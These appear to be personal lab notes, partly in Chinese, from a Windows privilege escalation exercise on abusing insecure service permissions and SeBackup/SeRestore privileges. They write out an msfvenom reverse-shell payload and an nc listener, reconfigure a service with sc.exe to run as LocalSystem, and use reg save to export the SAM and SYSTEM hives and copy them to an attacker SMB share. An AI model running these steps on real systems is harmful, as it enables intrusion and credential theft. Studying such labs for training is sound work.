 			--> sc stop "disk sorter enterprise"
			--> sc start "disk sorter enterprise"
			
			--> cd ../../Users/svcusr2/Desktop
			
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Insecure Service Permissions (不安全的服務權限)
		--> https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
		--> C:\\tools
		--> C:\tools\AccessChk> accesschk64.exe -qlc thmservice
		--> SERVICE_ALL_ACCESS 權限 : 這表示任何使用者都可以重新配置服務。
			--> payload : 
				--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.92.230 LPORT=4447 -f exe-service -o rev-svc3.exe
			--> kali : 
				--> python3 -m http.server
				--> nc -lvp 4447 
			--> Powershell :
				-->  wget http://10.11.92.230:8000/rev-svc3.exe -O rev-svc3.exe
				--> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
				--> 變更服務關聯的可執行檔和帳 戶	
					--> sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
				--> sc.exe stop THMService
				--> sc.exe start THMService
			
			--> cd ../../Users/Administrator/Desktop
## Abusing dangerous privileges :
	=> nt authority\system
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Windows Privileges
		--> 檢查 權限 : whoami /priv
		
		--> 可用權限的完整清單 : https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
		--> 可利用權限的完整清單 : https://github.com/gtworek/Priv2Admin
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> SeBackup 和 SeRestore 
		-->xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.28.124 /u:THMBackup /p:'CopyMaster555'
		--> 權限允許使用者讀取和寫入系統中的任何文件
		--> 允許某些使用者從系統執行備份，而無需完全管理權限
		--> Run as administrator 「以管理員身份開啟」

		--> example : 
			--> SYSTEM : reg save hklm\system C:\Users\THMBackup\system.hive
			--> SAM    : reg save hklm\sam C:\Users\THMBackup\sam.hive
		
		--> kali : 	
			--> mkdir share
			--> 啟動一個帶有網路共享的簡單SMB伺服器 : 
				--> python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public1 share
		--> 將這兩個檔案傳輸 : 
			--> copy C:\Users\THMBackup\sam.hive \\10.11.92.230\public1\
			--> copy C:\Users\THMBackup\system.hive \\10.11.92.230\public1\
			
